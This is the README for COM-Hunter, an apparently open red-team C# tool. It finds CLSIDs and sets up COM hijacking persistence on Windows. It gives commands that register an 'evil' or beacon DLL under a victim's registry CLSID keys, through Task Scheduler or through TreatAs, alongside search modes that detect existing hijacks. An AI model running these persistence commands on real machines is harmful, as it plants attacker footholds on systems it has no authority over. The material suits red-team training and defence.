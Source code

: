 # COM-Hunter
COM Hijacking VOODOO

COM-hunter is a COM Hijacking persistnce tool written in C#.<br /><br />
This tool was inspired during the [RTO course](https://courses.zeropointsecurity.co.uk/courses/red-team-ops) of [@zeropointsecltd](https://twitter.com/zeropointsecltd)

## Features:

- Finds out entry valid CLSIDs in the victim's machine.
- Finds out valid CLSIDs via Task Scheduler in the victim's machine.
- Finds out if someone already used any of those valid CLSIDs in order to do COM persistence (LocalServer32/InprocServer32).
- Finds out if someone already used any of valid CLSID via Task Scheduler in order to do COM persistence (LocalServer32/InprocServer32).
- Tries to do automatically COM Hijacking Persistence with general valid CLSIDs (LocalServer32/InprocServer32).
- Tries to do automatically COM Hijacking Persistence via Task Scheduler.
- Tries to use "TreatAs" key in order to refere to a different component.

## License
Copyright (c) 2022 Nikos Vourdas<br /><br />
Under the [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](LICENSE)

## .NET Framework
### 4.8

## Usage:

```
[+] Usage:

    .\COM-Hunter.exe <mode> <options>

-> General Options:
    -h, --help  Shows help and exits.
    -v, --version   Shows current version and exits.
    -a, --about Shows info, credits about the tool and exits.

-> Modes:
    Search  Search Mode
    Persist Persist Mode

-> Search Mode:
    Get-Entry   Searches for valid CLSIDs entries.
    Get-Tasksch Searches for valid CLSIDs entries via Task Scheduler.
    Find-Persist Searches if someone already used a valid CLSID (Defence).
    Find-Tasksch Searches if someone already used a valid CLSID via Task Scheduler (Defence).

-> Persist Mode:
    General    Uses General method to apply COM Hijacking Persistence in Registry.
    Tasksch    Try to do COM Hijacking Persistence via Task Scheduler.
    TreatAs    Uses TreatAs Registry key to apply COM Hijacking Persistence in Registry.

-> General Usage:
    .\COM-Hunter.exe Persist General <clsid> <full_path_of_evil_dll>

-> Tasksch Usage:
    .\COM-Hunter.exe Persist Tasksch <full_path_of_evil_dll>

-> TreatAs Usage:
    .\COM-Hunter.exe Persist TreatAs <clsid> <full_path_of_evil_dll>
```

## Example Usages:
- Get-Entry (Search Mode):
    
    ```
    .\COM-Hunter.exe Search Get-Entry
    ```
- Find-Persist (Search Mode):
    
    ```
    .\COM-Hunter.exe Search Find-Persist
    ```
    
- General (Persist Mode):
    
    ```
    .\COM-Hunter.exe Persist General 'HKCU:Software\Classes\CLSID\...' C:\Users\nickvourd\Desktop\beacon.dll
    ```
    
- Tasksch (Persist Mode):
    
    ```
    .\COM-Hunter.exe Persist Tasksch C:\Users\nickvourd\Desktop\beacon.dll
    ```

## Example Format Valid CLSIDs:

```
Software\Classes\CLSID\...
```
```
HKCU:Software\Classes\CLSID\...
```
HKCU:\Software\Classes\CLSID\...
HKCU\Software\Classes\CLSID\...
HKEY_CURRENT_USER:Software\Classes\CLSID\...
HKEY_CURRENT_USER:\Software\Classes\CLSID\...
HKEY_CURRENT_USER\Software\Classes\CLSID\...
```
